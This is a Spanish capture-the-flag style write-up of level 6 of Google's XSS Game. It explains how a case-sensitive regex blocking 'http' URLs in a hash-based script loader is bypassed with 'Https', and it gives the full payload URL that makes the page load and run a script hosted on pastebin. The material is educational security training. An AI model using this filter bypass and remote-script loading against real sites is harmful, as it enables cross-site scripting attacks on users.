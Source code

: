 #[6/6]  Level 6: Follow the 🐇

#Mission Description

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

#Mission Objective

Find a way to make the application request an external file which will cause it to execute an alert(). 

# Write Up Iker 

Primero que nada vamos a mirar el código fuente de la página para analizar correctamente la prueba.

Observando la foto del index.html y su contenido parece que sólamente nos deja cargar los scripts de la carpeta **/static/gadget.js** que luego ejecuta el contenido en el navegador.

```javascript
getGadgetName() 
{ 
  return window.location.hash.substr(1) || "/static/gadget.js";
}
```

Además tiene un código que evita que se pueda cargar scripts desde una URL con el siguiente código:

```javascript
// This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
````

Aquí podemos pensar en dos maneras para ejecutar el código:
  - 1 Intentar modificar el contenido de ```/static/gadget.js```
  - 2 Intentar hacer un **Bypass** de la comprobación de obtener y ejecutar el script mediante una URL 

Vaya, vaya, vaya...se pone algo complicado...

Tras muchas vueltas, hemos elegido la segunda opción por la siguiente razón: **REGEX** y **CASE SENSITIVE**
¿Porque? Porque el Regex de la consulta sólamente verifica que la URL sea **"https?"**, es decir, que si ponemos **"Https?** o ****"hTtps?** o **"hTTps?** etc nos dejaría hacer el Bypass ya que el resultado no coincidiría y podríamos cargar el script desde una URL.

Ahora tenemos que conseguir conlgar nuestro script en alguna URL y montar la URL de la consulta para que pueda ejecutarla.
La mejor página para hacer esto es **www.pastebin.com**. Te permite escribir un código HTML, JavaScript, etc, colgarlo online y ponerle fecha de expiración.

Creamos el script de alerta en pastebin.com y copiamos la URL con el mensaje **ZASCA!**:

```javascript alert('ZASCA!') ```

En este caso hemos creado la siguiente URL: ``` https://pastebin.com/raw/ny1kd5mC```

Y tenemos la siguiente URL completa para pasarsela al navegador:

``` https://xss-game.appspot.com/level6/frame#https://pastebin.com/raw/ny1kd5mC ```

**ERROR**!!! Recordar el **REGEX** que es **CASE SENSITIVE** y que debemos cambiar algún parámetro del https

Ahora quedaría de esta forma (modificamos la **H** del principio del **https** a **MAYUSCULAS** así **Https**:

``` https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/ny1kd5mC```

Nos muestra un cuadre de texto indicando que hemos pasado de nivel y completado el Juego de XSS de Google :)

Iker Burguera
